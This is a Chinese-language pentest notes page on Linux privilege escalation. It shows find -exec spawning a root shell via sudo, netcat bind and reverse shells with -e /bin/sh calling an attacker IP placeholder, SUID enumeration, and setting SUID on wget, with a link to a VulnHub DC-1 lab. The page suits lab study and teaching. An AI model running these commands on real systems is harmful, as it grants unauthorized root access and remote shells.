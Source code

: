 
## 9.2、docker组提权
[http://www.openskill.cn/article/21](http://www.openskill.cn/article/21)


# 十、实例

## 10.1、Find提权
**例一**<br />将SUDO权限分配给find命令，以便其他用户可以在系统中搜索特定的文件相关文件。尽管管理员可能不知道’find’命令包含用于执行命令的参数，但攻击者可以以root特权执行命令。

	拿到普通用户权限之后，使用`sudo –l`查看下， 查看当前是否存在当前用户可以调用sudo的命令，如下图，当前用户可以执行find命令，然后通过find命令获取root权限。
```
find ./ aaa -exec '/bin/sh' \;
```
![image.png](_img\14-归类总结/1671605997963-5a4c1aaa-0f58-44e4-b726-ea8d8b48236e.png)

应用链接：[DC-1](https://www.yuque.com/xmtxsec/network_security/vulnhub-dc-1)

**例二**<br />NC正向反弹<br />攻击机：

```
nc <-IP-> 9999
```

目标机：
```
touch dirty
find /xxx/xxx/dirty -exec nc -lvp 9999 -e /bin/sh \;
```
![](_img\14-归类总结/1671606907051-dca238a7-f30e-44e8-b45c-7c6305fa67e9.jpeg)

NC反向反弹<br />攻击机：
```
nc -lvp 8888
```

目标机：
```
touch dirty
find /xxx/xxx/dirty -exec nc <-IP-> 8888 -t -e /bin/sh \;
```
![image.png](_img\14-归类总结/1671607119407-c37eb602-9cc4-4a59-85f2-0c3afb695005.png)

**例三**<br />查找具有特殊权限SUID的文件
```
find / -perm -u=s -type f 2>/dev/null
```
如果find以SUID权限运行，所有通过find执行的命令都会以root权限运行<br />![](_img\14-归类总结/1671607262978-7833bd5f-df59-4094-9d42-f51e4adff8cd.jpeg)

通过find命令给wget命令提供SUID权限
```
find /home -exec chmod u+s /usr/bin/wget \;
```
![](_img\14-归类总结/1671607458035-f4f154ce-c2dc-46b6-88bd-a82bcae277b2.jpeg)
